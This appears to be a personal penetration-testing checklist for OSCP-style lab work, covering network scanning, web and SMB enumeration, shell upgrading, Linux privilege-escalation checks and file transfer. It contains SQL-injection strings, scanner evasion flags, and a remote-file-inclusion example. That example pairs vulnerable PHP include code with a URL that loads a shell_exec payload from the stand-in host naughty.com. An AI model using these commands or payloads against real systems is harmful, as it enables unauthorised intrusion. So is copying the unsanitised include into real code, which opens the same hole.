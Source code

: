 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
        - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
  - SAFE SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
  - ``` nmap -sU -T3 Ip-target -v ```
  -```--source-port 100 ``` just to try evade, change to well-known port number 
- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8 ``` (Many others check -H)
  - ``` dirb http://Ip-target -r ``` **Different wordlist perhaps**
  - Non-recursive to save time, then inspect further if necessary 
  - Try nmap ``` -–script=http-enum.nse ``` (others available)
  - Check site in browser (http/https)
   - Resolve host name if necessary (etc/hosts)
   - Cookies
   - GET / POST
   - Check source
    - Directories
    - Comments
    - Script links
    - Form methods
    - Login forms
     - Versions/names/brands etc
      - Basic sql injection
        -``` ‘or 1=1```
        -```union```
- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
  - enum4linux
  - smbclient
    -```smbclient \\\\ip\\share```
   - try to connect to them to see if they are truly alive
   - Banner grabbing even if booted
- Port 22
  - Banner grabbing
    -```ssh root@192.192.192.192```
- Port 21
  - Banner grabbing
  -```ftp root@ip-target```
  - Try anonymous login
  - Check for version numbers
  - use searchsploit / google for known vulns


- Low priv
  - find writeable directories if /tmp or /dev/shm not available
    - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
    -```>``` output to a file
    - ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
    - ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
    - ctrl+z backgrounds the shell on local box
      - then type: 
        - ```ssty raw -echo```
        - ```fg```
        - ```reset```
        - if size is an issue type:
          - ```stty size``` (returns current window size)
          - ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
  - if these don’t work try get kernel and distro info to look for exploits
  - ```uname -ar```
  - ```cat /etc/issue```
  - ```cat /etc/*-release```
  - ```cat /etc/lsb-release```
  - ```cat /etc/redhat-release```
  - Available programs/languages on host:
    - Perl,python etc
    - Nc,ncat,wget,curl

- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
    - Similar to local file inclusion while not hosted on the target
    - Rarer than LFI due to php.ini needs to configured for it 
    - Requres unsanitised parameter:
      - ```$theFile = $_REQUEST[“file”];```
      - ```Include($theFile . “.php”);```
    - Now in browser:
      - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
    - Badfile.txt:
      - ```<?php echo shell_exec("whoami");?>```
      
- WAF
  wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
  -  ```python -m SimpleHTTPServer 443``` 

**usefull links**
- https://netsec.ws/?p=331	- msfvenom,shells,tips
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
- https://sushant747.gitbooks.io/total-oscp-guide/connections.html


